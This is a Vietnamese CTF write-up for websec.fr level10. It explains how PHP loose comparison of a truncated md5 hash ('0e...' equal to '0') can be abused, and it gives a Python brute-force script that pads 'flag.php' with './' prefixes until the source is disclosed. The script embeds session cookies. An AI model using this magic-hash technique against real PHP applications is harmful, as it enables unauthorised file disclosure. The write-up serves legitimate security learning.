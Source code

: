 ## websec.fr-level10

Hi mọi người, đây là bài public writeup đầu tiên của mình :D
Chủ đề của bài viết này chính là challenge level10 của websec.fr

Khi truy cập vào challenge, ta được cung cấp source của file index.php.

```php
<?php
        if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
            $file = $_REQUEST['f'];
            $request = $_REQUEST['hash'];

            $hash = substr (md5 ($flag . $file . $flag), 0, 8);

            echo '<div class="row"><br><pre>';
            if ($request == $hash) {
            show_source ($file);
            } else {
            echo 'Permission denied!';
            }
            echo '</pre></div>';
        }
  ?>

```

Đầu tiên biến $hash sẽ được gán bởi giá trị của hàm md5().

Biến $hash và $request được so sánh bởi '==', là 'Loose comparision' nên 2 giá trị sẽ được đưa về cùng một kiểu dữ liệu để so sánh. (các bạn có thể tham khảo tại đây: https://www.php.net/manual/en/language.operators.comparison.php)

Nếu giá trị 0e... được tạo ra bởi hàm md5() và được so sánh với với giá trị 0 được gán cho biến $request thì hàm if sẽ trở thành True. Khi đó ta có thể xem được nội dung của file flag.php thông qua hàm show_source().

Vì cách thức hoạt động của md5 khá phức tạp (các bạn có thể tham khảo tại: https://vi.wikipedia.org/wiki/MD5) nên ý nghĩ đầu tiên là brute-force bằng cách chỉnh sửa các giá trị truyền vào hàm md5() đến khi nào có được giá trị 0e... :D

Ta có liên tục thêm './' vào trước 'flag.php' thông qua param 'f' của biến $_REQUEST['f'] đến khi nào ra được giá trị mong muốn.

Mình sẽ viết script để exploit bằng python

```python
import requests

burp0_url = "https://websec.fr:443/level10/index.php"
burp0_cookies = {"PHPSESSID": "591crqib06blpuu9e5o4kvvae9e4vrqd", "session": "eyJjc3JmIjp7IiBiIjoiY0hKMFV6ZFVTWFl4V2k5cWFXaDZkRUpVVDBaWk5TOXVhaXQ1VkVKMWR6WlZVVEI0U1RJMGNtVjJaMUU1YVc0d2FqSmFZV2swVlRWaGVYTktSa05NWm5vNUsyWkdiWGR0YlVSQmMzRmphbmxaVTFNM1NrRTlQUT09In0sImxvZ2luIjoiZ29kZG9nIn0.FihOrQ.kNvf2Pbye6xIq98vu_0WY2IkBV8"}
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not;A=Brand\";v=\"99\", \"Chromium\";v=\"106\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Upgrade-Insecure-Requests": "1", "Origin": "https://websec.fr", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://websec.fr/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9"}
filename = "flag.php"
i = 1
while True:
     burp0_data = {"f":filename, "hash": "0"}
     r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
     if "Permission denied!" not in r.text:
          print(r.text)
          break
     else:
          print("Test: ", i)
     filename = "./"*i + "flag.php"
     i = i + 1
```

Brute-force sẽ hơi mất nhiều thời gian, nhưng chờ đợi là hạnh phúc :DD


Nếu có mình có sai sót gì về kiến thức hay bất kỳ vấn đề gì, xin hãy đóng góp qua mail: dangth2002@gmail.com. 

